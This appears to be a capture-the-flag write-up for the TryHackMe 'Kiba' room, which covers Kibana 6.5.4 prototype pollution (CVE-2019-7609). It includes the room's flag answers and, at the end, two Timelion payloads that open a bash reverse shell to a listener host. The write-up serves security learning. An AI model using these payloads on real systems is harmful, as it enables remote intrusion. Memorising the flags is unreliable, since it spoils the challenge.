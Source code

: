 
# <div align="center">[Kiba](https://tryhackme.com/r/room/kiba)</div>
<div align="center">Identify the critical security flaw in the data visualization dashboard, that allows execute remote code execution.</div>
<br>
<div align="center">
<img src="https://github.com/user-attachments/assets/58d506f4-0582-421d-88bb-56cc46af47fb" height="200"></img>
</div>

## Task 1. Flags
Are you able to complete the challenge?
The machine may take up to 7 minutes to boot and configure

### What is the vulnerability that is specific to programming languages with prototype-based inheritance?
```
Prototype pollution
```
### What is the version of visualization dashboard installed in the server?
```
6.5.4
```
### What is the CVE number for this vulnerability? This will be in the format: CVE-0000-0000
```
CVE-2019-7609
```
### Compromise the machine and locate user.txt
```
THM{1s_easy_pwn3d_k1bana_w1th_rce}
```
### Capabilities is a concept that provides a security system that allows "divide" root privileges into different values
```
No answer needed
```
### How would you recursively list all of these capabilities?
```
getcap -r /
```
### Escalate privileges and obtain root.txt
```
THM{pr1v1lege_escalat1on_us1ng_capab1l1t1es}
```

### Payload 
```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/127.0.0.1/6666 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```
or
```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/192.168.0.136/12345 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```
